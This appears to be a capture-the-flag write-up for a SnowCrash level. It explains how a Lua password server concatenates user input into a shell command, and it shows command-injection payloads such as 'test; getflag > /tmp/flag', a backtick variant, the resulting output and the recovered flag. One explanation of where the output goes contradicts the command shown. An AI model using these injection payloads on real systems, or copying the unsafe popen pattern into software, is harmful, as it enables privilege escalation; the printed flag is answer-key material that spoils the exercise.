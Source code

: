 1. **File search**

    We have a `.lua` file that does the following:
    - Client connects via nc 127.0.0.1 5151
    - Server sends "Password: "
    - Client enters password (e.g: "hello")
    - Server executes: echo hello | sha1sum
    - Gets hash: 99500b06f4d5dde1... (40 characters)
    - Compares with f05d1d066fb246efe0c6f7d095f909a7a0cf34a0
    - Since it doesn't match, sends "Erf nope.."
    - This is vulnerable to command injection.

    The key point is that the password variable (`pass`) is directly concatenated into the shell command:
    ```lua
    prog = io.popen("echo " .. pass .. " | sha1sum", "r")
    ```
    This means our input is evaluated by the shell. By injecting a special string, we can break out of the echo command and execute arbitrary commands as the `flag11` user (due to the SUID bit).

    For example, if we input:
    ```
    test; getflag
    ```
    The resulting command executed by the script will be:
    ```
    echo test; getflag | sha1sum
    ```
    This will print the output of `getflag` to the client connection, because `getflag` is executed as `flag11`.
    ```bash
    Password: test; getflag > /tmp/flag
    Erf nope..
    level11@SnowCrash:~$ cat /tmp/flag
    .*( )*.
    woupa2yuojeeaaed06riuj63c
    ```
    We could also use: 
    ```bash
    `getflag` > /tmp/flag
    ```
    since it would execute the `getflag` command with `flag11` privileges first and the result would be saved to the `/tmp/flag` file, then it would continue with the sha1sum verification
    ```bash
    echo "getflag result" | sha1sum
    ```


